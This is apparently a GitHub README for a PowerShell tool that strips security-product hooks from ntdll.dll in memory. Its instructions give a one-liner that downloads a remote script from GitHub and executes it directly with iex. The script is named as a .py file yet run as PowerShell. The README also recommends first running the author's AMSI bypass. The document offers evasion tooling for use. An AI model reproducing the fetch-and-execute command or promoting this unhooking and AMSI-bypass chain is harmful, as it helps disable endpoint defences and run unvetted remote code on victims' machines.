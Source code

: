 # AsparuxUnHook

AsparuxUnHook is an advanced tool written in PowerShell that uses Reflection to access the Windows API and low-level functions. This tool focuses on cleaning the hooks present in the ntdll.dll module from memory, restoring its original state by reading ntdll.dll directly from disk.

FUNCTION HOOKED -->

![imatge](https://github.com/user-attachments/assets/bf8551e6-c9ae-479f-89fd-51a59a447175)


FUNCTION UNHOOKED (Clear function after running AsparuxUnHook) --> 

![imatge](https://github.com/user-attachments/assets/77e4e26b-fd9d-4fed-8380-9934aed1a719)


# Instruction 

```
iex (iwr -UseBasicParsing https://raw.githubusercontent.com/ASP4RUX/ReflectionUnHook/refs/heads/main/asamsiobfuscate.py)
```

```
Invoke-AsparuxUnHook
```

```
Invoke-AsparuxUnHook -v
```

#Recomendation

I recommend using the Invoke-ASAMSI that I have in my github followed by running AsparuxUnHook

